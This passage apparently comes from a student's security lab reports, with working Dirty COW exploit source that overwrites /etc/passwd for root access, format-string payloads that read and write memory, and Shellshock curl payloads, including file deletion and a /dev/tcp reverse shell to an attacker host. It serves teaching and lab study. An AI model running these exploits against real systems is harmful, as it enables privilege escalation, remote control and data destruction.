
\begin{tikzpicture}
\draw (-3,1.5) rectangle node {Data} (-1,-0.5);
\draw (1,3) rectangle (3,-2);
\draw [decorate,decoration={brace,amplitude=6pt},xshift=-4pt,yshift=0pt]
(-3.2,-0.5) -- (-3.2,1.5) node [black,midway,xshift=-1cm,text width=2.5cm] {\footnotesize Physical file};
\draw (-1,1.5) -- (1,2);
\draw(-1,-0.5) -- (1,-1);
\draw[fill=yellow!20] (1,-1) rectangle node{Data}(3,2);
\draw [decorate,decoration={brace,amplitude=6pt},xshift=4pt,yshift=0pt]
(3.2,3) -- (3.2,-2) node [black,midway,xshift=1.6cm,text width=2.5cm] {\footnotesize Memory};
\end{tikzpicture}
\caption{COW Operation}
\end{figure}\\
Following that, the instruction to create a local copy of the program for editing by the user is requested. This allows for the user to create a local file that is writable while ensuring that the original file is not writable.
\begin{figure}[!h]
\centering

\begin{tikzpicture}
\draw (-8,1)node[xshift=-1cm,yshift=1cm]{Memory} rectangle (4.2,3);
\draw[fill=yellow!20] (-7,1) rectangle node[text width=3cm] {Original Data (Non-writable)} (-3.5,3);
\draw[fill=blue!20] (-1,1) rectangle node[text width=3cm] {Copied Data (Writable)} (2.5,3);
\draw [->,line width=0.4mm] (-5.25,3) to [out=45,in=135] (0.75,3);
\end{tikzpicture}
\caption{Copying Data For Writing}
\end{figure}
\\Due to repeated executions of these two threads, there is a race vulnerability where the readable area can be modified during the rapid switching in mapping. When the writable data is no longer needed, the writable data is discarded and the readable data is flushed back to the file on disk. As the readable data has been modified, the file on disk will also be modified because the write operation is performed in a privileged process. This method can be used to modify files and gain root privileges where files may not even be readable to the user.
\section{Vulnerability Exploit}
\subsection{Lab Preparation}\vspace{1em}
\begin{enumerate}
\item \textbf{Snapshot}\begin{par}
	As this lab will deal with modification of system files affecting user login and credentials, a snapshot is created in the event that a mishap occurs. This will allow the state of the VM to be reverted to the stage before the lab and reducing the amount of work required to re-prepare the VM.\end{par}
\end{enumerate}
\newpage
\subsection{Modification of Read-Only File}\label{task1}
This subsection will look into using the Dirty COW vulnerability to writing to a read-only file. We need to create a dummy file in the root directory with read-only permissions for normal users as we do not want to perform the operation on a system file and corrupt the contents. To do so, we use the following commands.
\begin{verbatim}
$ su
# nano /zzz
# chmod 644 /zzz
# exit
\end{verbatim}
We can try to write to the file but will instead be thrown an error, as the file has been set to read-only for normal users.
\begin{figure}[H]
\centering
\includegraphics[width=0.9\linewidth]{DirtyCOWRO}
\caption{Read-Only File}
\label{fig:dirtycowro}
\end{figure}
\noindent The memory mapping thread is set up. This program has three threads. The main thread maps the file to memory and finds the pattern which we would like to overwrite. The main thread then creates two other threads, the \texttt{write} and the \texttt{madvise} thread to exploit the Dirty COW race condition race condition vulnerability. The \texttt{write} thread searches for the string as defined in the code of overwriting. As the execution is based on COW, the thread will able to modify the contents in the copy of the mapped memory and will not change any data in the underlying file. The \texttt{madvise} thread discards the private copy of the mapped memory so the page table can be pointed back to the original memory. The code for the program has been attached to the \hyperref[Appsec:2]{Appendix}. \\\\The source code is compiled with the \texttt{-lpthread} flag and run. The process is allowed to run a few seconds before being forcefully terminated (Using the shortcut 
\begin{tikzpicture} \draw[line width=1pt,yshift=-0.6mm] (-2.2,1)rectangle  node{Ctrl}(-1.2,0.5); \end{tikzpicture} $+$ 
\begin{tikzpicture} \draw[line width=1pt,yshift=-2mm] (-2.2,1)rectangle  node{C}(-1.6,0.5); \end{tikzpicture}. Printing the contents of the file shows that the file has successfully been overwritten.
\begin{figure}[H]
\centering
\includegraphics[width=0.9\linewidth]{ROEdit}
\caption{Read-Only File Edited}
\label{fig:roedit}
\end{figure}
\subsection{Editing of \texttt{/etc/passwd} file}
In this subsection, we will look at exploiting the dirty COW attack to raise the privileges of a normal user to a root user without requiring the need for superuser access. A new user \textit{burneruser} is created using the command \texttt{sudo adduser burneruser}. If the contents of \texttt{/etc/passwd} is printed, we see that the newly created user does not have uid and gid 0.
\begin{figure}[H]
\centering
\includegraphics[width=0.9\linewidth]{adduser}
\caption{Non-root User Created}
\label{fig:adduser}
\end{figure}
\noindent Before any attempt at modifying this file, a snapshot is created first in case of any event that the file becomes corrupted and the VM becomes unstable and bootable, which would allow us to restore the VM to the state prior to commencement of the attack.\\\\To perform the attack successfully, the following edits were made to the file before being recompiled:
\begin{table}[h]
\centering	
\bgroup
\def\arraystretch{1.3}
\begin{tabular}{l|l|l}
	& Before                                                                                 & After                                                                                     \\ \hline
	\circled{1} & \begin{tabular}[c]{@{}l@{}}int f = \\ open(``/zzz", O\_RDONLY);\end{tabular}            & \begin{tabular}[c]{@{}l@{}}int f = \\ open(``/etc/passwd", O\_RDONLY);\end{tabular}        \\ \hline
	\circled{2} & \begin{tabular}[c]{@{}l@{}}char *position = \\ strstr(map, ``2222222222");\end{tabular} & \begin{tabular}[c]{@{}l@{}}char *position = \\ strstr(map, ``r:x:1002:1003");\end{tabular} \\ \hline
	\circled{3} & char *content=``5555555555";                                                            & char *content=``r:x:0000:0000";                                                           
\end{tabular}
\egroup
\label{tab:Ccode}
\caption{Changes to \texttt{C} code}
\end{table}\\Also note that for \circled{2} and \circled{3} of the table above, it is sufficient to use ``r:x:$\cdots$'' as it is the only user with that unique string within the entire file. As a result, only the above-mentioned string will be modified and nothing else.\\
\\The attack is run using the steps used in section \ref{task1}, task 1. The \texttt{/etc/passwd} file is printed after the attack has stopped, for us to check whether the file has been succesfully modified using the current user privileges. Figure 6 displays the result of executing the program.
\begin{figure}[H]
\centering
\includegraphics[width=0.9\linewidth]{editpass}
\caption{Successful Modification}
\label{fig:editpass}
\end{figure}
\noindent The figure has shown that the edit has been successful. However, it can only be validated if we are able to login to the user account and obtain a root shell. To do so, the command \texttt{su hackeduser} is used to login to the specified user account.
\begin{figure}[H]
\centering
\includegraphics[width=0.9\linewidth]{COWpass}
\caption{Successful Login with Root Access}
\label{fig:cowpass}
\end{figure}
\noindent With the successful login and the ``\#'' sign visible as shown in Figure 7, the attack is successful and has shown that a dirty COW attack program is able to modify and obtain root privileges without any need for root privileges when executing any command.
\newpage
\section{Appendix}
\subsection{Main Thread: \texttt{cow\_attack.c}}
\label{Appsec:2}
\begin{minted}{C}
#include <sys/mman.h>
#include <fcntl.h>
#include <pthread.h>
#include <sys/stat.h>
#include <string.h>

void *map;

int main(int argc, char *argv[])
{
    pthread_t pth1, pth2;
    struct stat st;
    int file_size;

    //Open file in Read-Only mode
    int f=open("/zzz", O_RDONLY);

    //Map file to COW memory using MAP_PRIVATE
    fstat(f, &st);
    file_size = st.st_size;
    map=mmap(NULL, file_size, PROT_READ, MAP_PRIVATE, f, 0);

    //Find position of target area
    char *position = strstr(map, "2222222222");

    //Create two threads for attack
    pthread_create(&pth1, NULL, madviseThread, (void *)file_size);
    pthread_create(&pth2, NULL, writeThread, position);

    //Wait for threads to finish
    pthread_join(pth1, NULL);
    pthread_join(pth2, NULL);

    return 0;
}
\end{minted}
\newpage
\subsection{\texttt{write} thread: \texttt{cow\_attack.c}}
\begin{minted}{C}
void *writeThread(void *arg)
{
    //Content to overwrite
    char *content="5555555555";
    off_t offset = (off_t) arg;

    int f=open("/proc/self/mem", O_RDWR);
    while(1) {
        //Move file pointer to corresponding position.
        lseek(f, offset, SEEK_SET);
        //Write to memory.
        write(f, content, strlen(content));
    }
}
\end{minted}
\subsection{\texttt{madvise} thread: \texttt{cow\_attack.c}}
\begin{minted}{C}
void *madviseThread(void *arg)
{
    int file_size = (int) arg;
    while(1) {
        madvise(map, file_size, MADV_DONTNEED);
    }
}
\end{minted}













%%%%%%%%%%%% PDF 7 %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\begin{titlepage}
	\begin{center}
		\vspace*{27em}
		\Huge
		\textbf{String Format Vulnerability}\\		
		\vfill
	\end{center}
\end{titlepage}

\pagenumbering{roman}
\newpage
\pagenumbering{arabic}
\setcounter{section}{0}
\section{Introduction}
An uncontrolled format string is an vulnerability where the user input can be used to inject malicious code read from an arbitrary memory region or to crash a program. This vulnerability stems from the use of the print symbols \texttt{\%s}, \texttt{\%x} and \texttt{\%n} as languages such as \texttt{C} are not type-safe. This will create an environment where the stack is popped multiple times, depending on the number of print symbols used and may reveal data in sensitive areas that are otherwise privileged.
\section{Overview}
This lab will look at a program that has the format string vulnerability and this lab will attempt to crash the program, view and write to regions that are otherwise inaccessible to the user.\\\\In particular, the following will be covered in each task:\\\\
\circled{1} Crashing of the program\\\circled{2} Printing the value of \texttt{secret[1]} or \texttt{secret[2]}\\\circled{3} Modification of \texttt{secret[1]} or \texttt{secret[2]}\\\circled{4} Modification of \texttt{secret[1]} or \texttt{secret[2]} to a predetermined value
\newpage
\section{Vulnerability Exploit}
\subsection{Generic Exploitation}
This section will look into the exploitation of the given program \texttt{vul\_prog}. The code has been attached to the \hyperref[Appsec:3.1]{Appendix} for reference. The program has printed the address of the secrets for convenience sake but the detailed steps of obtaining the location of the secrets will be mentioned in this report for clarity and completeness.\\\\The program is first compiled and executed. The address is assumed to be hidden on the stack and can be found using \texttt{gdb}. Since the source code is known, we can determine the location of \texttt{secret} by using the command \texttt{p secret}.

\begin{figure}[H]
	\centering
	\includegraphics[width=0.9\linewidth]{varpos}
	\caption{\texttt{secret} array location}
	\label{fig:varpos}
\end{figure}
\noindent The address obtained can be checked against the address printed by the program. It is also important to note that the location obtained is the start of the \texttt{secret} array, or \texttt{secret}. To view the content of \texttt{secret[1]}, we note that the address offset is $+4$, this is because \texttt{sizeof(char)} is one but the array structure will pad the remaining 3 bytes to align against the machine word length (32 bits on a 32-bit machine). This will be looked into greater detail in the next few sections.\\\\\circled{1} Crashing of the program\\\\The use of \texttt{\%s} will treat the value in the stack as a pointer and will print the character to the location that it is pointing to. Similarly, \texttt{\%n} treats the value in the stack as a pointer but will instead overwrite of the memory address space it is pointing to. It is critical to understand that the program will crash when the pointer references a protected region, such as the kernel or an unassigned space. With this information, we can crash the program by using multiple \texttt{\%s} or \texttt{\%n} and hope that we get lucky.
\begin{figure}[H]
	\centering
	\includegraphics[width=0.9\linewidth]{strcrash}
	\caption{Crashed Program}
	\label{fig:strcrash}
\end{figure}
\noindent If the program is debugged using \texttt{gdb}, we will notice that the program crashes on the second \texttt{\%s} as the address that it happens to read from is \texttt{0x1}, which is protected. Therefore reading from that region will crash the program indefinitely.\\\\\circled{2} Printing the value of \texttt{secret[1]}\\\\To print out the value of \texttt{secret[1]}, we need to know the address and the number of print tokens to use. From before, we already know the address for the start of the array. We add the offset of $+4$ and it will point to \texttt{secret[1]}. To find out the number of print tokens to use, we will key in a random integer first and locate it on the stack. In the following figure, we input the value of $12349876$ and view the stack to find the appropriate value.
\begin{figure}[H]
	\centering
	\includegraphics[width=0.9\linewidth]{espstrval}
	\caption{Search Stack Using \texttt{ESP}}
	\label{fig:espstrval}
\end{figure}
\noindent We note that the value of $12349876_{10}$ has the value of \texttt{0xbc71b4} in hex, which can easily be determined using a calculator. With reference to Figure 3, the relevant data can be found in address \texttt{0xbffff314}. We have also determined that eight \texttt{\%x} must be used followed by a \texttt{\%s}.
\begin{figure}[H]
	\centering
	\includegraphics[width=0.9\linewidth]{sec1val}
	\caption{Printing \texttt{secret[1]} Value}
	\label{fig:sec1val}
\end{figure}
\noindent As we know the value of address of \texttt{secret[1]} now and the number of \texttt{\%x} to use, using it together will print out the secret in the last field. From Figure 4, the secret that is printed out has the value ``U''. Checking against the ASCII table, ``U'' has a hex value of \texttt{0x55} which corresponds to the secret that has been conveniently printed out by the program.\\\\\circled{3} Modification of \texttt{secret[1]}\\\\To modify \texttt{secret[1]}, we need to make use of the \texttt{\%n} command. The \texttt{\%n} allows the pointed address to be overwritten based on the number of characters that has been printed before it. Using this, we can change the value of \texttt{secret[1]}. To do so, we will use the same methods in \circled{2} but will use \texttt{\%n} instead of \texttt{\%s}. As it is not possible to modify the number of \texttt{\%x}, a technique of adjusting the text width can be used. In Figure 5, we have adjusted the text width to 8, to reflect 32-bit values in the memory. 
\begin{figure}[H]
	\centering
	\includegraphics[width=0.9\linewidth]{sec1mod}
	\caption{Modification of \texttt{secret[1]}}
	\label{fig:sec1mod}
\end{figure}
\noindent We see from the output that the new secret has been modified when the \texttt{\%n} is used. In the next part, we will analyse further into changing the value to something that is predetermined.\\\\
\circled{4} Modification of \texttt{secret[1]} to a predetermined value\\\\The techniques used in \circled{3} will be used in this part. To set \texttt{secret[1]} to a specific value, we can use the text width of \texttt{\%x} to increase the value to be written into the memory. In our case, we would like to write the letter ``z'' into the memory, which has the hex value of \texttt{0x7a}. A hex value of \texttt{0x7a} corresponds to the decimal number 122 so this number of characters must be printed before \texttt{\%n} is called.
\begin{figure}[H]
	\centering
	\includegraphics[width=0.9\linewidth]{sec1predmod}
	\caption{Modifying \texttt{secret[1]} To Predetermined Value}
	\label{fig:sec1predmod}
\end{figure}
\noindent From Figure 6, \texttt{\%8x,\%8x,\%8x,\%8x,\%8x,\%8x,\%8x,\%58x,\%n} is used. If we perform the calculations, we have seven \texttt{\%x} with a width of 8, one \texttt{\%x} with a width of 58 and eight ``,'' symbols. Adding all these up,
$$7\times 8+1\times 58+8=122$$
This gives us the required number to be overwritten and will be stored in the heap. Figure 6 shows that our method of overwriting has proven to be correct. Also, if the number that we would like to overwrite is less than the number of characters to be printed, for example a hex value of \texttt{0x2} but the number of \texttt{\%x} that must be used is 6, then we can use \texttt{\%hn}, \texttt{\%hhn} to write the last 2 bytes or 1 byte of the hex value respectively. We use this by forcing an overflow on the number of characters, which will act in the same manner as the \textit{modulo} function in mathematics.
\subsection{Exploitation Without Leading Input}
In the following section, address randomisation is turned off and the same attack repeated. It can be turned off via the following command,
\begin{verbatim}
# sysctl -w kernel.randomize_va_space=0
\end{verbatim}
After disabling address randomisation, the address on the stack and heap remain unchanged after multiple executions, which can also be seen in Figure 7.
\begin{figure}[H]
	\centering
	\includegraphics[width=0.9\linewidth]{ncadd}
	\caption{No Change in Address}
	\label{fig:ncadd}
\end{figure}
\noindent 
The removal of the leading integer input complicates the attack as hex values cannot be typed through \texttt{STDIN} and requires the reading of an external file. The code for the writing of this file has been attached to the \hyperref[Appsec:3.2]{Appendix}. As \texttt{secret[1]} is in the address with address ending with the byte \texttt{0x0c}, this corresponds to the new page command when used with \texttt{scanf}. Due to this problem, we dynamically add an extra element to the \texttt{secret} array by increasing the number of \texttt{malloc} used. To ensure that we do not edit or view the contents of the incorrect index, \texttt{secret[2]} is set with the hex value of \texttt{0x66}.
\\\\\circled{1} Crashing of the program\\\\Crashing of the program works in the same way as the previous task and will require only two \texttt{\%s} to be used as the second address being printed is \texttt{0x1} again, which is protected.\\\\\circled{2} View the contents of \texttt{secret[2]}\\\\The address of \texttt{secret[2]} is calculated by using the offset of $+8$ from the address of \texttt{secret}. Using \texttt{gdb}, it can be noticed that the changes performed on the vulnerable program code will require 1 additional \texttt{\%x}. It is similarly followed by a \texttt{\%s}. In our case, the address of \texttt{secret[0]} is \texttt{0x804b008} so \texttt{secret[2]} will be located at the address \texttt{0x804b010}.
\begin{figure}[H]
	\centering
	\includegraphics[width=0.9\linewidth]{viewadd2}
	\caption{Printing \texttt{secret[2]}}
	\label{fig:viewadd2}
\end{figure}
\noindent From Figure 8, it can be noticed that the second \texttt{\%s} prints out the value of \texttt{secret[2]} as it is the tenth print token. The letter ``f'' corresponds to the hex value \texttt{0x66}, which is what has been printed out by the program.\\\\
\circled{3} \& \circled{4} Modification of \texttt{secret[2]}\\\\The steps to perform modification are again similar to task 1, where the \texttt{\%s} is replaced with a \texttt{\%n} instead. When executing the program this time, the number of characters being printed is less than the original secret and will make it easier for us to view the modifications.
\begin{figure}[H]
	\centering
	\includegraphics[width=0.9\linewidth]{sec2mod}
	\caption{Modification of \texttt{secret[2]}}
	\label{fig:sec2mod}
\end{figure}

\newpage
\section{Appendix}
\subsection{Vulnerable Program: \texttt{vul\_prog.c}}
\begin{minted}{C}
/*vul_prog.c*/
#include <stdio.h>
#include <stdlib.h>
#define SECRET1 0x44
#define SECRET2 0x55

int main(int argc,char *argv[])
{
    char user_input[100];
    int *secret;
    int int_input;
    int a,b,c,d;

    /*Secret stored on heap*/
    secret=(int *)malloc(3*sizeof(int));

    /*Getting secret*/
    secret[0]=SECRET1; secret[1]=SECRET2;
    printf("The variable secret's address is 0x%8x (on stack)\n", 
    (unsigned int)&secret);
    printf("The variable secret's value is 0x%8x (on heap)\n", 
    (unsigned int)secret);
    printf("secret[0]'s address is 0x%8x (on heap)\n", 
    (unsigned int)&secret[0]);
    printf("secret[2]'s address is 0x%8x (on heap)\n", 
    (unsigned int)&secret[2]);

    /*Get input from user*/
    printf("Please enter a decimal integer\n");
    scanf("%d", &int_input);
    printf("Please enter a string\n");
    scanf("%s", user_input);

    /*Vulnerable place*/
    printf(user_input);
    printf("\n");

    /*Verify whether attack is successful*/
    printf("The original secrets: 0x%x -- 0x%x\n", SECRET1, SECRET2);
    printf("The new secrets: 0x%x -- 0x%x\n", secret[0], secret[1]);
    return 0;
}
\end{minted}
\newpage
\subsection{Input File: \texttt{mystring}}
\label{Appsec:3.2}
\begin{minted}{C}
#include <stdio.h>
#include <string.h>
#include <sys/stat.h>
#include <fcntl.h>

int main()
{
    char buf[1000];
    int fp, size;
    unsigned int *address;

    /* Address to put at front of file*/
    address = (unsigned int *) buf;
    *address = 0x0804b010;

    /*Input for rest of string*/
    scanf("%s", buf+4);
    size = strlen(buf+4) + 4;
    printf("The string length is %d\n", size);

    /*Writing buf to file "mystring"*/
    fp = open("mystring", O_RDWR | O_CREAT | O_TRUNC,
    S_IRUSR | S_IWUSR);
    if (fp != -1) {
        write(fp, buf, size);
        close(fp);
    } else {
        printf("Open failed!\n");
    }
}
\end{minted}










\begin{titlepage}
	\begin{center}
				\vspace*{27em}
		\Huge
		\textbf{Shellshock Attack}\\		
	
		\vfill
	\end{center}
\end{titlepage}

\pagenumbering{roman}
\newpage
\pagenumbering{arabic}
\setcounter{section}{0}
\section{Introduction}
Shellshock is a series of bugs pertaining to the Unix Bash shell that was first disclosed in September 2014. Web servers such as Apache uses Bash to process commands and allows an attacker to exploit vulnerable versions of Bash to execute arbitrary commands and obtain escalated privileges on these systems.\\\\The first of these bugs allows functions to be stored into the environment variables and using the \textit{function export} feature in Bash, pass these values to child processes. As Bash does not check whether the definitions are properly formed before being passed, the attacker can manipulate the environment variables that will be used by Bash and execute arbitrary code.
\section{Overview}
This lab will provide a hands-on experience on exploiting the Shellshock vulnerability on a web server serving CGI pages and analyse the consequences of exploiting a vulnerability to run malicious code.\\\\A simple line of the following code is able to create a loophole for attacks to occur.\begin{verbatim}
export foo='() { :;}; echo Hello'
\end{verbatim}
When \texttt{bash} is called, the string ``Hello'' will output onto the screen. This vulnerability causes any code outside of the \{\} to be run when \texttt{bash} is called. Figure 1 shows the effect on executing the above-mentioned code.
\begin{figure}[H]
	\centering
	\includegraphics[width=0.9\linewidth]{simpleshellshock}
	\caption{Exploitation}
	\label{fig:simpleshellshock}
\end{figure}
\noindent The attack vector using this method is not limited to exploiting local computers but remote as well, by modification of the User-Agent (UA) headers due to how the UA is stored as an environment variable and executed by \texttt{bash} on the remote system.
\newpage
\section{Vulnerability Exploit}
\subsection{VM Preparation}
\vspace{1em}
\begin{enumerate}
	\item \textbf{Updating \texttt{curl}}
	\begin{par}\texttt{curl} is used as a tool to transfer data to and from a server using common internet protocols including HTTP, FTP, POP3, TELNET, TFTP amongst many others. It supports options to defined user agent headers, forced use of deprecated protocols such as HTTP 1.0 and SSLv2. The VM does not include \texttt{curl} and must be installed manually. As this may include updating components of the system, a snapshot is first created in case the system needs to be rolled back for other labs later on. Furthermore, because the sources for Ubuntu 12 are outdated, it needs to be updated as well.
		\begin{verbatim}
		$ sudo apt-get update
		$ sudo apt-get install -y
		\end{verbatim}
	\end{par}
\end{enumerate}

\subsection{CGI Preparation}
To perform the shellshock attack, a dynamic web file is first created so that the CGI program can be executed to call \texttt{bash} later. To do so, we create a file in the \texttt{/usr/lib/cgi-bin} directory (default) with the following source code and name it as \texttt{myprog.cgi}.
\begin{minted}{bash}
#!/bin/bash

echo "Content_type: text/plain"
echo
echo
echo "Hello World"
\end{minted}
To execute the program, we can
\begin{enumerate}
	\item Use a web browser and type \texttt{http://localhost/cgi-bin/myprog.cgi} into the address bar; or
	\item Open terminal and use the \\command \texttt{curl http://localhost/cgi-bin/myprog.cgi}
\end{enumerate}
Execution of the program will print out a ``Hello World'' as it was written into the file.
\newpage
\subsection{Exploiting \texttt{CGI} Vulnerability}
To exploit the Shellshock vulnerability, we make use of the User-Agent field. Due to the way \texttt{bash} executes trailing code, the malicious code to be executed will be appended to the back, before ending with the URL of the page. In this instance, we can print out all the files and the directories on the remote system.
\begin{verbatim}
curl -A "() { :;}; echo Content_type: text/plain; /bin/ls -l -R /
> /tmp/listdir.txt" http://localhost/cgi-bin/myprog.cgi
\end{verbatim}
\texttt{/tmp} is used to store the output as it is world-writable, not easily detectable and cleaned after every reboot. If we would like to print the contents of the file that was just written, we can perform the same attack and change the command to be used.
\begin{verbatim}
curl -A "() { :;}; echo Content_type: text/plain; /bin/cat
/tmp/listdir.txt" http://localhost/cgi-bin/myprog.cgi
\end{verbatim}
If an attacker wants to do cripple a system, a simple command using \texttt{rm -rf} will permanently delete any file that is accessible by the Apache user account on the system.
\begin{verbatim}
curl -A "() { :;}; echo Content_type:text/plain; /bin/rm -rf"
http://localhost/cgi-bin/myprog.cgi
\end{verbatim}
The vulnerability in the \texttt{bash} code is reflected in Figure 2. The reflected code preserves backwards compatibility by allowing functions to be imported, but can now be exploited to execute malicious code.
\begin{figure}[H]
	\centering
	\includegraphics[width=0.9\linewidth]{oldbash}
	\caption{Code Vulnerability}
	\label{fig:oldbash}
\end{figure}
\subsection{Exploiting \texttt{Set-UID} Program}
For this section, the shellshock vulnerability will be exploited with a \texttt{Set-UID} program to obtain root access to the system. For this, \texttt{bash} must be downgraded to 4.1 as 4.2 has fixed the bug and the exploit will fail. The following commands are used to install \texttt{bash} 4.1 and make a backup of the current \texttt{bash}.
\begin{verbatim}
$ su
# mv /bin/bash /bin/bashbackup
# wget http://ftp.gnu.org/gnu/bash/bash-4.1.tar.gz
# tar xf bash-4.1.tar.gz
# cd bash-4.1
# ./configure
# make & make install
# ln -s /usr/local/bin/bash /bin/bash
# ln -s /bin/bash /bin/sh
# exit
\end{verbatim}
We create and compile the following \texttt{Set-UID} program which executes the \texttt{ls} command in \texttt{/bin}. It is also known that \texttt{system} will call \texttt{/bin/sh -c} to run the command.
\begin{minted}{C}
#include <stdio.h>

void main()
{
    setuid(geteuid());
    system("/bin/ls -l")
}
\end{minted}
Before the program is executed, the shellshock function is exported. A simple command is issued in Terminal that exploits this vulnerability.
\begin{verbatim}
export foo = '() { :;}; bash'
\end{verbatim}
Due to how \texttt{system} works, the function \texttt{foo} in the environment variable will also be parsed and this will result in bash being called with root privileges when the vulnerable program is executed.
\begin{figure}[H]
	\centering
	\includegraphics[width=0.9\linewidth]{setuidhshellshock}
	\caption{Shellshock Exploit with Absolute Address}
	\label{fig:setuidhshellshock}
\end{figure}
\noindent Of course, when the line \texttt{setuid(geteuid())} is removed, the exploit will not work as euid of the parent process and the child process is different. As such, the function will not be imported and the attack will not succeed.
\begin{figure}[H]
	\centering
	\includegraphics[width=0.9\linewidth]{noprivesc}
	\caption{No Privilege Escalation}
	\label{fig:noprivesc}
\end{figure}
\noindent The part of the code that implements the safeguard is shown in Figure 5, where it is checked before the function is imported.
\begin{figure}[H]
	\centering
	\includegraphics[width=0.9\linewidth]{Privcheck}
	\caption{UID \& EUID Check}
	\label{fig:privcheck}
\end{figure}
\noindent If \texttt{execve} is used instead of \texttt{system}, the exploit will also not work. This is due to \texttt{execve} not requiring the execution of \texttt{bash} to run the code, as such even if the malicious function is exported, it will not work. The code for this part has been attached in the \hyperref[Appsec3.4]{Appendix}.
\begin{figure}[H]
	\centering
	\includegraphics[width=0.9\linewidth]{noshellexecve}
	\caption{No Shell Escalation}
	\label{fig:noshellexecve}
\end{figure}
\newpage
\section{Further Analysis}
It is possible to combine the methods of shellshock and shell redirect to obtain access on the remote system via reverse shell. On the attacker's computer, two Terminals would need to be opened.\\\\
Terminal 1 will have the following code:
\begin{verbatim}
nc -l 9090 -v
\end{verbatim}
This is to allow Terminal to listen for incoming connections on port 9090.
\\\\Terminal 2 will have the following code:
\begin{verbatim}
curl -A "() { :;}; echo Content-type: text/plain; echo; 
/bin/bash -i > /dev/tcp/<Attacker IP Address>/9090 2>&1 0<&1"
http://<Victim IP Address or TLD URL>/<Path to CGI Program>
\end{verbatim}
The code from Terminal 2 is then executed, which will push the request to the victim's computer, execute the \texttt{bash} function in interactive mode and redirect the shell to the attacker's computer. It is worth noting that \texttt{0} represents \textit{STDIN} (standard input), \texttt{1} represents \textit{STDOUT} (standard output) and \texttt{2} represents \textit{STDERR} (standard error). This means that the code snippet \texttt{2>\&1 0<\&1} redirects the standard error from the victim to the attacker's computer as standard output. Similarly, the standard output from the attacker's computer will be used as the input on the victim's system.
\begin{figure}[H]
	{	\centering
		
\begin{tikzpicture}
		\draw (-4,2) rectangle node {Victim}(-1,-1);
		\draw (5,2) rectangle node {Attacker}(8,-1);
		\draw (4.6,2.4) node {\circled{1}};
		\draw [->, line width=0.5mm] (5,1.2) -- node[yshift=5mm] {\circled{2}} (-1,1.2);
		\draw [<-, line width=0.5mm] (5,-0.2) -- node[yshift=5mm] {\circled{3}} (-1,-0.2);
		\draw (4.6,-1.4) node {\circled{4}};
		\end{tikzpicture}\\
	}
	\circled{1}: Netcat enabled on attacker's system.\\
	\circled{2}: Malicious \texttt{curl} script transmitted.\\
	\circled{3}: Malicious script executed and redirects shell control to attacker.\\
	\circled{4}: Attacker has full control of victim's system.
	\caption{Process of Remote Reverse Shell}
\end{figure}
\noindent Using the idea in Figure 7 and the code mentioned above, a successful attack is easily performed and the attacker is being able to \texttt{ls} the contents located in the home folder as well as obtain the IP address of the victim's computer.\\\\$^\star$Victim's computer is on the left, attacker's computer is on the right.
\begin{figure}[H]
	\centering
	\includegraphics[width=0.9\linewidth]{reverseshell}
	\caption{\texttt{ls} of Victim's Computer}
	\label{fig:reverseshell}
\end{figure}
\begin{figure}[H]
	\centering
	\includegraphics[width=0.9\linewidth]{reverseshellcfm}
	\caption{Confirmation of Successful Attack (IP Check)}
